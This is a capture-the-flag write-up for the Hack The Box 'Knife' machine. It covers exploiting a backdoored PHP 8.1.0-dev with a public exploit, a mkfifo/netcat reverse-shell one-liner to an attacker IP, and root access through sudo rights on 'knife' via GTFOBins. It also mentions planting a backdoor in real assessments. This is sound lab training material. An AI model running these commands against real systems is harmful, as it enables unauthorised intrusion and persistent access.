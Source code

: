 ```yaml
---
title: "HTB | KNIFE"
date: 2024-08-26 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Vulnerable PHP version and Publicly Available Exploit leads to RCE

**Vulnerability Explanation:** The PHP version running on the web server on port 80 is vulnerable with a backdoor. There is a publicly available exploit available that can be used to gain RCE to the system.

**Vulnerability Fix:** Upgrade to a nonvulnerable version of PHP.

**Severity:** Critical

**Steps to reproduce the attack:** Christian began with an nmap port scan and discovered port 80 open. Enumerating further revealed that PHP 8.1.0-dev is running and it is vulnerable to RCE by a back door. A publicly available exploit was found and used to gain access.

**Port Scan Results**

**TCP:** 22, 80

**UDP:** N/A

Use nmap to scan the target for open ports.

TCP ports 22, 80 were discovered.

```shell
sudo nmap -p- -T5 -vvv -oN nmap.initial 10.10.10.242
```

![img-description](/assets/img/HTB/KNIFE/1.png)

Use 'whatweb' to quickly enumerate the versions the web page is using.

```
whatweb 10.10.10.242
```

![img-description](/assets/img/HTB/KNIFE/2.png)

The PHP version that the web page is using is potentially vulnerable according to a quick google search. Copy the exploit-db exploit to the working directory.

```
searchsploit -m 49933
```

![img-description](/assets/img/HTB/KNIFE/3.png)

![img-description](/assets/img/HTB/KNIFE/4.png)

![img-description](/assets/img/HTB/KNIFE/5.png)

Run the exploit and enter the target url when prompted.

![img-description](/assets/img/HTB/KNIFE/6.png)

We now have initial access to the machine as user 'james'.

## Privilege Escalation - Sudo Privileges + GTFOBins

**Vulnerability Explanation:** User 'james' has permissions to run the 'knife' command with sudo privileges. This allows attackers to elevate privileges using known exploits found in GTFOBins.

**Vulnerability Fix:** Remove 'knife' command from 'james' sudo privileges if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Running the command 'sudo -l' reveals what commands we can run as 'sudo'. We can run the command 'knife' which we can exploit to gain root access via the exploit given on GTFOBins.

Run 'sudo -l' to show what sudo commands we can run on the target machine.

```shell
sudo -l
```

![img-description](/assets/img/HTB/KNIFE/7.png)

We can run the command 'knife', however, we do not have fully interactive shell yet. Only the shell that the exploit gave us.

Upgrade to new shell by starting a netcat listener on our Kali attacker machine and running the following command.

```shell
nc -nlvp 4444
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.8 4444 >/tmp/f
```

![img-description](/assets/img/HTB/KNIFE/8.png)
We will receive a reverse shell on our nc listener and we can upgrade the shell again.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![img-description](/assets/img/HTB/KNIFE/9.png)

On GTFObins webpage, we can find the exploit to elevate our privileges. Run them on our new shell.

```
sudo knife exec -E 'exec "/bin/sh"'
```

![img-description](/assets/img/HTB/KNIFE/10.png)
![img-description](/assets/img/HTB/KNIFE/11.png)
We know have root access to the machine.

## Post Exploitation

Since this is a CTF the objective is only to retrieve the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.